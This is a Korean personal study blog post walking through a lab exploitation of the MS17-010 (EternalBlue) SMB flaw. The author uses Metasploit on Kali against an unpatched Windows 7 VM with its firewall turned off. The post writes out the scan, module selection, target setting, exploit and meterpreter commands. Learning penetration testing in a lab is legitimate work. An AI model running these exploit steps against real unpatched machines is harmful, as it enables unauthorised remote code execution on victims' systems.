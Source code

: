 ```yaml
---
title:  "[Kali] EternalBlue 사용법"  

categories:
  - Tools
tags:
  - [Kali, Linux, EternalBlue]
date: 2022-09-01
last_modified_at: 2022-09-01
---
```

## 1️⃣ EternalBlue란?

- 윈도우 시스템의 SMB 프로토콜의 원격코드 실행 취약점(MS17-010, SMBv1)을 이용하여 루트 쉘을 얻는 해킹 도구
- 섀도우 브로커즈 해킹 그룹에 의해 유출된 미 국가안보국의 해킹 도구

<br>

## 2️⃣ 모의해킹 준비물
- 칼리리눅스
- 윈도우7 설치[Window7 순정 iso](https://drive.google.com/file/d/1V42632aqwgiWqif2GoTvjB3i1vviI5tc/view?usp=sharing)

칼리리눅스에 내장되어있는 metasploit를 사용

MS17-010취약점에 대한 보안패치가 이루어지지 않은 윈도우 버전 사용

<br>

## 3️⃣ 공격 시나리오

1. 공격자는 웹서비스 또는 클라이언트 접속 프로그램을 운영 중인 서버에 대해 포트 스캔
2. SMB PORT(445/tcp Microsoft-ds) 열려있는 것을 확인
3. 공격자는 MS17-010 취약점을 이용하여 공격
4. 공격 결과로 서버 루트 계정 쉘 획득 

<br>

## 4️⃣ 취약한 윈도우 환경 세팅
1. 제어판 -> 시스템 및 보안 -> Windows 방화벽 -> Windows 방화벽 설정 또는 해제 
2. 방화벽 설정 모두 해제
![방화벽](../../imgs/%EB%AA%A8%EC%9D%98%ED%95%B4%ED%82%B9/%EB%B0%A9%ED%99%94%EB%B2%BD.PNG)

<br>

## 5️⃣ 모의해킹
윈도우를 취약하게 만들었으니 공격을 해보자

1. 윈도우의 IP주소 확인
- cmd프롬프트 실행 -> ipconfig 입력
![ipconfig](../../imgs/%EB%AA%A8%EC%9D%98%ED%95%B4%ED%82%B9/ipconfig.PNG)
2. 칼리리눅스에서 포트스캔 진행
![PortScan](../../imgs/%EB%AA%A8%EC%9D%98%ED%95%B4%ED%82%B9/%ED%8F%AC%ED%8A%B8%EC%8A%A4%EC%BA%94.PNG)
445포트에 microsoft-ds가 서비스 중인 것을 확인
3. metasploit을 통해 EternalBlue를 사용해 공격을 진행
- msfconsole에서 eternalblue검색 후 선택
```bash
kali@kali:~$ msfconsole
msf6 > search eternalblue
msf6 > use 0
```
![console1](../../imgs/%EB%AA%A8%EC%9D%98%ED%95%B4%ED%82%B9/%EC%BD%98%EC%86%941.PNG)
- 옵션 설정
```bash
msf6 > show options
msf6 > set RHOSTS 192.168.27.137
```
![console2](../../imgs/%EB%AA%A8%EC%9D%98%ED%95%B4%ED%82%B9/%EC%BD%98%EC%86%942.PNG)
- Exploit
```bash
msf6 > exploit -j
```
![exploit](../../imgs/%EB%AA%A8%EC%9D%98%ED%95%B4%ED%82%B9/exploit.PNG)
- 확인
```bash
msf6 > sessions
msf6 > sessions 1
meterpreter > cd /
meterpreter > cd Users/minsu/Desktop
meterpreter > mkdir hacking
```
![session1](../../imgs/%EB%AA%A8%EC%9D%98%ED%95%B4%ED%82%B9/session1.PNG)
![session2](../../imgs/%EB%AA%A8%EC%9D%98%ED%95%B4%ED%82%B9/session2.PNG)
> 성공!!!!!!!!!!!!

***
<br>

    🌜 개인 공부 기록용 블로그입니다. 오류나 틀린 부분이 있을 경우 
    언제든지 댓글 혹은 메일로 지적해주시면 감사하겠습니다! 😄

[맨 위로 이동하기](#){: .btn .btn--primary }{: .align-right}